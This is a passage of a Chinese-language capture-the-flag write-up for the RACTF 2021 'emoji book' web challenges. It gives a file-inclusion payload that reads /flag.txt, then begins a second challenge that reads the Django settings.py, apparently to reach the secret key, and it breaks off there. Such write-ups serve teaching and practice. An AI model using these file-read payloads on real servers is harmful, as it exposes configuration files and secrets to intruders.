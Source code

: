 可以成功读取，读取`/flag.txt`

### payload

```
{..{/flag.txt}..}
```



## emoji book 2

> *2021/08/30*

### 题目

这道题与上道题环境完全一致，但是上道题由于权限控制的原因，导致可以直接读取`flag`，而这道题不能直接包含，所以我们要寻找其他方案

我们可以先读取`settings.py`

![ractf20216](img/ractf2021/ractf20216.png)

代码如下

```python
"""
Django settings for notebook project.

Generated by 'django-admin startproject' using Django 3.2.6.

For more information on this file, see
https://docs.djangoproject.com/en/3.2/topics/settings/

For the full list of settings and their values, see
https://docs.djangoproject.com/en/3.2/ref/settings/
"""

from pathlib import Path

# Build paths inside the project like this: BASE_DIR / 'subdir'.
BASE_DIR = Path(__file__).resolve().parent.parent


# Quick-start development settings - unsuitable for production
# See https://docs.djangoproject.com/en/3.2/howto/deployment/checklist/

# SECURITY WARNING: keep the secret key used in production secret!
```